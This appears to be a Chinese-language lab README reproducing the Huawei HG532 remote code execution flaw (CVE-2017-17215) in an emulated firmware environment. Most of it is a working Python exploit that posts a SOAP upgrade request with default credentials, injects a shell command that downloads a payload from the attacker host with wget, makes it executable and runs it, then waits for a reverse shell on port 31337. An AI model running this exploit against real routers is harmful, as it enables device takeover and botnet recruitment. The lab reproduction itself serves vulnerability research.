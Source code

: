 # 华为 HG532 远程代码执行漏洞（CVE-2017-17215）

## 漏洞环境

- docker：攻击、调试主机：192.168.2.1
- qemu-system：固件主机：192.168.2.2
- uhttpd（有漏洞 Web 服务器）：192.168.2.2:80
- 镜像依赖：`firmianay/ubuntu1604 -> firmianay/qemu-system:mips`

使用 `firmianay/binwalk` 解压固件：

```sh
$ docker run --rm -v $PWD/firmware/:/root/firmware firmianay/binwalk -Mer "/root/firmware/HG532eV100R001C01B020_upgrade_packet.bin"
```

构建并启动漏洞环境：

```sh
# 初始化环境
$ ./init_env.sh mips

# 构建镜像
$ docker-compose -f docker-compose-system.yml build

# 启动容器
$ docker-compose -f docker-compose-system.yml up

# 启动完成后，开启 socks 代理
$ ssh -D 2345 root@127.0.0.1 -p 1234
# 配置浏览器代理，即可登陆 Web 后台 http://192.168.2.2/

# 漏洞利用
$ python3 tools/exp.py
```

## 漏洞复现

```py
#!/usr/bin/python3

import requests
from requests.auth import HTTPDigestAuth
from pwn import *
from threading import Thread

cmd  = 'wget -g 192.168.2.1 -P 8000 -r /tools/msf -l /msf\n'
cmd += 'chmod 777 /msf\n'
cmd += '/msf'

assert(len(cmd) < 255)

data = "<?xml version=\"1.0\" ?>\n    <s:Envelope xmlns:s=\"http://schemas.xmlsoap.org/soap/envelope/\" s:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\">\n    <s:Body><u:Upgrade xmlns:u=\"urn:schemas-upnp-org:service:WANPPPConnection:1\">\n    <NewStatusURL>$(" + cmd + ")</NewStatusURL>\n<NewDownloadURL>$(echo HUAWEIUPNP)</NewDownloadURL>\n</u:Upgrade>\n    </s:Body>\n    </s:Envelope>"
url = "http://192.168.2.2:37215/ctrlt/DeviceUpgrade_1"

def attack():
    try:
        requests.post(url, auth=HTTPDigestAuth('dslf-config', 'admin'), data=data)
    except Exception as e:
        print(e)

thread = Thread(target=attack)
thread.start()

io = listen(31337)
io.wait_for_connection()
log.success("getshell")
io.interactive()

thread.join()
```

![img](./exp.png)

## 参考链接

- <https://research.checkpoint.com/2017/good-zero-day-skiddie>
- <https://www.freebuf.com/vuls/160040.html>
